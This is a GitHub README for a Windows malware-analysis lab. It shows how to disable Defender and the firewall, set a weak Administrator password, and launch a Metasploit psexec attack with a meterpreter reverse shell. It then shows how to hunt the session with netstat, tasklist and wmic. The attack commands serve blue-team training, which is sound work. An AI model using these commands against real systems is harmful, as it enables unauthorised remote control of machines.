

# Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 

---

## Understanding the DLL Modules in a Malicious PowerShell Process

In the screenshot below, we observe a PowerShell process (`powershell.exe`) with **PID 1476**, and several associated **dynamic link libraries (DLLs)** loaded into its memory space:

 

These DLLs — such as `ntdll.dll`, `wow64.dll`, `wow64base.dll`, `wow64win.dll`, `wow64con.dll`, and `wow64cpu.dll` — are **core components of the Windows operating system** and are **not inherently malicious**.

> ❗ **Does every malicious payload load these exact DLLs?**  
> No. Malware often injects itself into legitimate processes or loads additional, custom libraries at runtime.

However, this particular set of DLLs represents the **minimum runtime environment** required for a PowerShell-based payload to:

- Interface with system calls (`ntdll.dll`)  
- Operate in a 32-bit compatibility layer on a 64-bit OS (`wow64*.dll`)  
- Enable shell command execution and remote control

---

### Key Insight for Analysts

The presence of these DLLs alone **does not confirm malicious behavior**. However, when correlated with:

-  **Unusual parent processes** (e.g., spawned from `cmd.exe`)
-  **Outbound connections** to external IPs (e.g., port `4444`)
-  **Encoded or obfuscated PowerShell commands**

…it significantly increases confidence that the process is tied to a **reverse shell or post-exploitation activity**.

This type of analysis reinforces the need for **multi-dimensional threat hunting**, combining:
- Process forensics
- Network monitoring
- Command-line tracing
- Module introspection

to detect stealthy malware that evades signature-based defenses.

---
---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
[LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
├── 06_tasklist_dll.png
└── README.md
```

## License

MIT License
